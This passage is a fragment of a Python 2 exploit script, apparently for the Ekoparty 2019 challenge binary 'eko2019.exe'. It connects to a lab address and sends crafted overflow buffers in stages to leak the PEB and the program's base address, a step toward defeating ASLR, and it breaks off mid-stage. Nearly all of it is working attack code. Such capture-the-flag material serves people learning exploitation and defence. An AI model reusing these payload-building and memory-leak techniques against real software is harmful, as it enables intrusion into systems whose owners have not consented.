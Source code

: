 ```python
# Indexing the response to view RAX (PEB)
receive = s.recv(1024)
peb_unpack = struct.unpack_from('<Q', receive)
peb_addr = peb_unpack[0]

print "[+] PEB is located at: {0}".format(hex(peb_addr))

# Closing the connection
s.close()

# Allow buffer room
sleep(2)

# 2nd stage

# 16 total bytes
print "[+] Sending the second header..."
exploit_2 = "\x45\x6B\x6F\x32\x30\x31\x39\x00" + "\x90"*8

# 512 byte offset to the byte we control
exploit_2 += "\x41" * 512

# Just want a vanilla mov rax, qword ptr[rcx], which already exists - so sliding in with a NOP to this instruction
exploit_2 += "\x90"

# Padding to loading PEB+0x10 into rcx
exploit_2 += "\x41\x41\x41\x41\x41\x41\x41"
exploit_2 += struct.pack('<Q', peb_addr+0x10)

# Message needs to be 528 bytes total
exploit_2 += "\x41" * (544-len(exploit_2))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("172.16.55.132", 54321))
s.sendall(exploit_2)

# Indexing the response to view RAX (Base VA of eko2019.exe)
receive_2 = s.recv(1024)
base_va_unpack = struct.unpack_from('<Q', receive_2)
base_address = base_va_unpack[0]

print "[+] The base address for eko2019.exe is located at: {0}".format(hex(base_address))

# Closing the connection
s.close()

# Allow buffer room
sleep(2)

# 3rd stage

print "[+] Sending the third header..."
exploit_3 = "\x45\x6B\x6F\x32\x30\x31\x39\x00" + "\x90"*8

# 512 byte offset to the byte we control
exploit_3 += "\x41" * 512

# Just want a vanilla mov rax, qword ptr[rcx], which already exists - so sliding in with a NOP to this instruction
exploit_3 += "\x90"

# Padding to load eko2019.exe+0x9010
```
